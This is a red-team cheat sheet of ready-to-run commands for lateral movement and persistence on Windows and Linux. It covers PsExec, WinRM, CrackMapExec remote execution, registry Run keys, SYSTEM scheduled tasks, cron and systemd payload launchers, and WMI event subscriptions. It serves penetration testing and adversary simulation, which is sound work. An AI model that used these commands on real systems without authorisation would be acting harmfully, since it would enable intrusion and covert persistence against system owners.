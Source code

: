# Lateral Movement and Persistence Cheat Sheets 🕵️‍♀️

### Purpose
These cheat sheets provide quick access to common techniques, tools, and commands for lateral movement and persistence on Windows and Linux systems. They are valuable for penetration testers and red team operators looking to understand and simulate adversary tactics.

---

## 📖 Table of Contents

1. [Lateral Movement Cheat Sheet](#lateral-movement-cheat-sheet)
2. [Persistence Techniques Cheat Sheet](#persistence-techniques-cheat-sheet)

---

## 1. Lateral Movement Cheat Sheet

### 🛠 Common Tools for Remote Command Execution

1. **PsExec** (Windows):
   - PsExec is part of the Sysinternals suite and allows remote command execution on Windows.
   - **Basic Usage**:
     ```powershell
     psexec \\<target_ip> -u <username> -p <password> cmd
     ```
   - **Running as SYSTEM**:
     ```powershell
     psexec -s \\<target_ip> cmd
     ```

2. **WinRM (Windows Remote Management)**:
   - WinRM is commonly used for remote PowerShell sessions.
   - **Enable WinRM**:
     ```powershell
     winrm quickconfig
     ```
   - **Open a Remote PowerShell Session**:
     ```powershell
     Enter-PSSession -ComputerName <target_ip> -Credential <username>
     ```

3. **Remote Desktop Protocol (RDP)**:
   - RDP allows remote GUI access to Windows systems.
   - **Enable RDP**:
     ```powershell
     Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -Name "fDenyTSConnections" -Value 0
     ```

4. **SSH (Linux and Windows)**:
   - SSH is a standard protocol for remote access on Linux and can be enabled on Windows.
   - **Command**:
     ```bash
     ssh <username>@<target_ip>
     ```

### 🧰 PowerShell Remoting Commands

1. **Invoke-Command**:
   - Run commands on a remote machine over WinRM.
   ```powershell
   Invoke-Command -ComputerName <target_ip> -Credential <username> -ScriptBlock { <command> }
   ```

2. **Copy Files via PowerShell Remoting**:
   - Use `Copy-Item` to transfer files between systems.
   ```powershell
   Copy-Item -Path C:\localfile.txt -Destination \\<target_ip>\C$\Users\Public\ -Credential <username>
   ```

3. **Establish a Persistent Session**:
   - Use `New-PSSession` for long-lived sessions that can run multiple commands.
   ```powershell
   $session = New-PSSession -ComputerName <target_ip> -Credential <username>
   Invoke-Command -Session $session -ScriptBlock { <command> }
   ```

### 🔍 Techniques for Using CrackMapExec and BloodHound

1. **CrackMapExec (CME)**:
   - CrackMapExec is a versatile tool for Active Directory reconnaissance and remote command execution.
   - **Enumerate Shares**:
     ```bash
     crackmapexec smb <target_ip> -u <username> -p <password> --shares
     ```
   - **Check for Local Admin Privileges**:
     ```bash
     crackmapexec smb <target_ip> -u <username> -p <password> --local-auth
     ```
   - **Execute Commands Remotely**:
     ```bash
     crackmapexec smb <target_ip> -u <username> -p <password> -x "whoami"
     ```

2. **BloodHound**:
   - BloodHound is used to map and analyze relationships in Active Directory, revealing paths for privilege escalation and lateral movement.
   - **Collect Data with SharpHound**:
     - SharpHound is the BloodHound data collector and can be run on the target network.
     ```powershell
     .\SharpHound.exe -c All
     ```
   - **Upload to BloodHound**:
     - Import the `.zip` output from SharpHound into BloodHound for analysis and visualization.

---

## 2. Persistence Techniques Cheat Sheet

### 🔒 Windows Registry Persistence Commands

- **Run Key Persistence (User-Specific)**:
  - Adds an entry to the `HKCU` (Current User) `Run` key to execute a payload on user logon.
  ```powershell
  reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v <key_name> /t REG_SZ /d "C:\path\to\payload.exe" /f
  ```

- **Run Key Persistence (Machine-Wide)**:
  - Adds an entry to the `HKLM` (Local Machine) `Run` key to execute a payload on any user logon.
  ```powershell
  reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v <key_name> /t REG_SZ /d "C:\path\to\payload.exe" /f
  ```

- **Registry-Based Scheduled Task Persistence**:
  - Adds a scheduled task entry to run at a set time or interval.
  ```powershell
  reg add HKLM\Software\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\{<GUID>} /v Path /t REG_SZ /d "C:\path\to\payload.exe" /f
  ```

### ⏰ Windows Scheduled Task Creation Commands

- **Create a Scheduled Task with schtasks**:
  - Run a command or payload at specified intervals (e.g., at logon or daily).
  ```powershell
  schtasks /create /sc onlogon /tn "<task_name>" /tr "C:\path\to\payload.exe" /ru SYSTEM
  ```

- **Set a Daily Trigger for the Task**:
  ```powershell
  schtasks /create /sc daily /tn "<task_name>" /tr "C:\path\to\payload.exe" /st 12:00
  ```

- **List All Scheduled Tasks**:
  ```powershell
  schtasks /query /fo LIST /v
  ```

- **Delete a Scheduled Task**:
  ```powershell
  schtasks /delete /tn "<task_name>" /f
  ```

### 🔄 Linux Cron Job Persistence Examples

1. **User-Specific Cron Job**:
   - Add a cron job to the current user’s crontab to execute a payload at regular intervals.
   ```bash
   (crontab -l 2>/dev/null; echo "@reboot /path/to/payload") | crontab -
   ```

2. **System-Wide Cron Job**:
   - Add a cron job for all users by editing `/etc/crontab`.
   ```bash
   echo "@reboot root /path/to/payload" >> /etc/crontab
   ```

3. **Scheduled Cron Job**:
   - Schedule a command to run every hour.
   ```bash
   echo "0 * * * * /path/to/payload" | crontab -
   ```

4. **Persistent Cron Job via Script in `/etc/cron.d/`**:
   - Place a script file in `/etc/cron.d/` with specified permissions to execute the payload.
   ```bash
   echo "* * * * * root /path/to/payload" > /etc/cron.d/persistent_task
   chmod 644 /etc/cron.d/persistent_task
   ```

### 🛠 Additional Persistence Techniques

1. **Linux Init Scripts**:
   - Modify existing init scripts or create a new one in `/etc/init.d/` to run on system startup.
   ```bash
   echo "/path/to/payload" >> /etc/rc.local
   ```

2. **Systemd Service Persistence (Linux)**:
   - Create a custom service file to run a payload as a background service.
   ```bash
   echo -e "[Unit]\nDescription=CustomService\n\n[Service]\nExecStart=/path/to/payload\n\n[Install]\nWantedBy=multi-user.target" > /etc/systemd/system/customservice.service
   systemctl enable customservice
   ```

3. **Windows WMI Event Subscription**:
   - Use Windows Management Instrumentation (WMI) to create an event-based persistence mechanism.
   ```powershell
   $filter = New-CimInstance -Namespace root\subscription -ClassName __EventFilter -Property @{Name="PersistenceFilter";QueryLanguage="WQL";EventNamespace="root\cimv2";Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_LocalTime' AND TargetInstance.Hour = 10 AND TargetInstance.Minute = 0"}
   $consumer = New-CimInstance -Namespace root\subscription -ClassName CommandLineEventConsumer -Property @{Name="PersistenceConsumer";CommandLineTemplate="C:\path\to\payload.exe"}
   $binding = New-CimInstance -Namespace root\subscription -ClassName __FilterToConsumerBinding -Property @{Filter=$filter;Consumer=$consumer}
   ```

---

### 📘 Resources

- **CrackMapExec Documentation**: [CrackMap

Exec GitHub](https://github.com/byt3bl33d3r/CrackMapExec)
- **BloodHound Documentation**: [BloodHound Wiki](https://github.com/BloodHoundAD/BloodHound/wiki)
- **PayloadsAllTheThings**: [Persistence Techniques](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Persistence)
